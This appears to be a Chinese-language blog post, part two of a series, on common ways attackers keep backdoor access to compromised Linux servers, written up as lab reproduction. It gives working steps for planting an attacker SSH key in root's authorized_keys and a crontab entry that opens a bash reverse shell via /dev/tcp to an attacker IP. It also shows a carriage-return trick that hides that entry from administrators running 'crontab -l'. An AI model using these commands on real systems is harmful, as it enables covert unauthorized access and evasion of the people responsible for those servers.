 ```yaml
---
title: linux 服务器常见的留后门方式（二）
date: 2022-4-2 23:36:35
tags: [Backdoor,Linux,Kali]
categories: 
 - [Cyber Security,后门]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682441841/Typera/2023/04/7e00f34b8462535fcbd72b5a18b714e9.png
---
```


:::primary
整理好了搭环境的文章：[LINUX后门复现环境搭建](https://blog.sycamore.top/2022/03/21/LINUX%E5%90%8E%E9%97%A8%E5%A4%8D%E7%8E%B0%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)
:::

攻击者在通过各种手段获得服务器的控制权之后，通常会在服务器上布置一些脚本、进程、链接，即所谓的**后门**。其目的是，方便攻击者以后对该服务器进行持久性的攻击。

其中，在linux服务器上留后门的常见技术，**本文中会提及**如下几种：
- SSH公钥免密
- crontab后门
...

## SSH公钥免密

简而言之，**SSH公钥免密**就是，将**攻击者**生成的 **ssh公钥**写到**目标服务器**的`/root/.ssh/authorized_keys`中（手动在目标机上完成注册），
然后**攻击者**就可以利用对应的**私钥**免密登录。

**实现：**
1. 使用 **Xshell** 的 工具 -> 新建用户密钥生成向导，完成**ssh公钥、私钥**的生成：![image-20230426010853712](https://res.cloudinary.com/sycamore/image/upload/v1682442537/Typera/2023/04/0c7400e842c42ccbcd324c9147cf6c24.png)
（填入密码)
<br>
2. 保存生成的公钥文件（id_rsa_2048.pub），传到**目标服务器**上，![image-20230426010925673](https://res.cloudinary.com/sycamore/image/upload/v1682442569/Typera/2023/04/8a2edc41bc3463490d0617bcbbd9acd1.png)
<br>
3. 寻找 **authorized_keys** 文件，命令`find -name authorized_keys`，
如果没有，就通过命令`touch /root/.ssh/authorized_keys`创建。
<br>
4. 命令`ssh-keygen -t rsa`开启免密登录功能，
<br>
5. 通过命令`cat 公钥路径 >> /root/.ssh/authorized_keys`把公钥写入到**authorized_keys**，完成注册
<br>
6. 修改文件权限`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`
<br>



7. 攻击者使用**Xshell**生成的**私钥**和之前填写的**密码**，登录目标服务器![image-20230426010955314](https://res.cloudinary.com/sycamore/image/upload/v1682442599/Typera/2023/04/f0b36186750c7e6ae6e0cfb6e31536aa.png)![image-20230426011015095](https://res.cloudinary.com/sycamore/image/upload/v1682442619/Typera/2023/04/3707348bcf16ceccd18bb0594ff0933d.png)

## crontab后门

**Crond**服务启动后，会**定期**（默认一分钟检查一次）检查它的配置文件中，是否有要执行的任务。
如果有，就会根据**预先设定**的**定时任务规则**自动执行该任务。
crontab是用来定期执行程序的命令，
我们可以通过**crontab**命令制造定时后门：
`(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -`

**解释：**
`echo '*/60 * * * *'`：设定每60分钟执行一次；
`exec 9<>/dev/tcp/192.168.158.132/2333`：利用bash提供的功能，对`/dev/tcp/`开头的字符串进行**解析**，指定**服务器IP**为：192.168.158.132（**攻击机**IP），**端口号**为 2333，指定描述符为9，建立网络连接；
`exec 0<&9;exec 1>&9 2>&1;`：**文件描述符** 0：stdin，1：stdout，把标准输入输出**都**重定向到描述符9；
`/bin/bash --noprofile -i`：开一个Shell。
其实就是利用 Bash **反弹**一个**Shell**到指定的攻击者IP

（ubuntu默认**没开**bash的网络重定向选项，需要加上`–enable-net-redirections`重新编译bash）

**隐藏：**
但是这样的一个后门，管理员直接执行`crontab -l`就能看到我们设定的定时任务。
![image-20230426011055514](https://res.cloudinary.com/sycamore/image/upload/v1682442659/Typera/2023/04/e8f07ae16e6573488c17eeea6f3339f2.png)
这个命令其实是在读取 `/var/spool/cron/crontabs/root`文件。
所以，我们可以利用cat的一个缺陷，使用一些**转义字符**，比如 \r 回车符 \n 换行符 \f 换页符，来**隐藏**我们不想让管理员看到的命令：
`(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -`
![image-20230426011110789](https://res.cloudinary.com/sycamore/image/upload/v1682442674/Typera/2023/04/0af7f80743588f2bae6b80f3903e55c6.png)但是，若是使用`cat -A /var/spool/cron/crontabs/root`还是可以看到我们隐藏的东西的。
